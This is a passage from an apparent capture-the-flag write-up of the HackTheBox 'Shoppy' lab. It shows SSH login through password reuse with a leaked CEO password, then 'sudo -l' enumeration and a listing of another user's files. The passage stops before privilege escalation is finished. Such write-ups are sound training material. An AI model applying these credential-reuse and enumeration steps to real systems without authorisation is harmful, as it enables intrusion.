 Now we got the CEO’s password too from the deploy machine sidebar. We have tried josh password for ssh connection but it did not work, let’s try password reuse on the server with the CEO’s password given here

and there was the ssh’s password

```bash
➜  ssh jaeger@shoppy.htb -o UserKnownHostsFile=/dev/null                                                 
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ED25519 key fingerprint is SHA256:RISsnnLs1eloK7XlOTr2TwStHh2R8hui07wd1iFyB+8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb' (ED25519) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ whoami; hostname -I
jaeger
10.10.11.180 172.17.0.1 dead:beef::250:56ff:feb9:621e
```
{: .nolineno }

Let’s enumerate the system now to look for the path to privilege escalation

# Privilege Escalation

First thing first is to see, what command the current user can run as root by running `sudo -l`

```bash
sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```
{: .nolineno }

jaeger can run `/home/deploy/password-manager` without using a password as deploy not root, let’s investigate this file to see what’s the binary about

being in another user’s home folder, let’s look at the access we got to the files in the folder

```bash
jaeger@shoppy:/home/deploy$ ls -l
total 28
-rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
-rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
-rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
```
{: .nolineno }

